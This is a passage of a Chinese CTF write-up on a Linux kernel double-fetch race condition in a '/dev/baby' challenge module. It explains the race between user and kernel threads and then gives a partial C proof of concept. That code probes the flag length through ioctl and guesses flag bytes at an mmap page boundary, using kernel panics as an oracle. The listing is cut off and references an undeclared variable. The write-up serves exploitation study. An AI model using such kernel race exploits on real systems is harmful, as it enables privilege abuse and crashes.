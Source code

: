 ```c

	return 0;
}


```

* 说明

1. 这是条件竞争的一种，用户态线程A和内核态线程B竞争用户空间的资源，当线程B完整验证之后，线程A修改了储存在用户空间的验证条件。
2. `-smp cores=1,threads=1 `其他类型的题boot.sh是这样的参数，`-smp 2,cores=2,threads=1`，这个条件竞争题目给的是这个。我也查了一些资料，但是我OS学识尚浅，不能在多核，进程，线程给出本题目的论断。
3. 我使用fork创建一个进程去竞争资源（是符合直觉的）是不可行性，应该是因为fork后进行了资源copy，fork出的进程的用户空间是独立的，也就不存在竞争了。


* poc2

在mmap映射的地址边缘尝试，通过是否触发kernel panic，来判断是否正确。
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <pthread.h>
#include <sys/ioctl.h>

struct user_flag
{
	char *flag;
	int len;
};
struct user_flag* buf;

int main()
{

	int fd;
	char *p;
	if((fd = open("/dev/baby",2))<0)
	{
		printf("[!] open failure");
	}

	buf = malloc(sizeof(struct user_flag));
	buf->flag = malloc(0x30);
	tmp = buf->flag;

	for(int i=1;i<0x100;i++)
	{
		buf->len = i;
		if(ioctl(fd,0x1337,buf) != 14)
		{
			printf("[+] flag length => %d\n",buf->len);
			break;
		}
	}
	p = mmap((void*)0x500000,0x1000,7,MAP_PRIVATE|MAP_ANONYMOUS,-1,0);

	int crack = 9;
	p = p+0x1000-crack;
	p[0] = 'f';
	p[1] = 'l';
	p[2] = 'a';
	p[3] = 'g';
	p[4] = '{';
	p[5] = 'T';
```